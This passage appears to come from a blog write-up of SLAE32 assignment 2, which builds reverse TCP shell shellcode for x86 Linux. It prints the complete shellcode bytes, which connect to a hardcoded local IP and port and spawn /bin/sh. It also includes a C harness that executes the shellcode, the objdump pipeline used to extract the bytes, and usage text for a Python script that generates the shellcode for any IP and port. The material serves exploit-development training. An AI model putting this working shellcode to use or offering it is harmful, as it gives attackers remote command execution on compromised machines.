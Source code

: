 ```nasm
 80480b1:	b0 06                	mov    al,0x6
 80480b3:	89 fb                	mov    ebx,edi
 80480b5:	cd 80                	int    0x80
```

**Source Code**<br/>
You can grab the source code for both the C and assembly programs from the following location:<br/>
[https://github.com/tdmathison/SLAE32/tree/master/assignment2](https://github.com/tdmathison/SLAE32/tree/master/assignment2)

**We can extract the bytes with objdump**
```
[sengen@manjaro-x86 assignment2]$ objdump -d ./rev_shell_asm|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\xb3\x03\x68\xc0\xa8\x01\x7a\x66\x68\x1a\x85\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc9\x89\xfb\xb0\x3f\xcd\x80\xb0\x3f\x41\x83\xf9\x02\x7e\xf6\xb0\x0b\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\xb0\x06\x89\xfb\xcd\x80"
```

**Add it to a test C program**
```c
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xc0\x89\xc3\x50\xb0\x66\xb3\x01\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\xb3\x03\x68\xc0\xa8\x01\x7a\x66\x68\x1a\x85\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc9\x89\xfb\xb0\x3f\xcd\x80\xb0\x3f\x41\x83\xf9\x02\x7e\xf6\xb0\x0b\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80\xb0\x06\x89\xfb\xcd\x80";

main()
{
	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();
}
```

**Start listening with netcat**<br/>
<img src="{{ site.url }}/images/slae32/02-04.png"/>

**Execute reverse shell shellcode**<br/>
<img src="{{ site.url }}/images/slae32/02-05.png"/>

**Client received shell and can execute commands**<br/>
<img src="{{ site.url }}/images/slae32/02-06.png"/>

## Phase 4: Write a wrapper python script
I wrote a helper python script that will generate the shellcode with target IP address and port.
```
[sengen@sengen assignment2]$ python create_rev_shell.py 
Usage: create_rev_shell.py [options]

Generates Reverse TCP Shell shellcode.

Options:
  -h, --help            show this help message and exit
  -i IP_ADDRESS, --ip-address=IP_ADDRESS
                        IP address to connect back to
  -p PORT, --port=PORT  Port to connect back to
```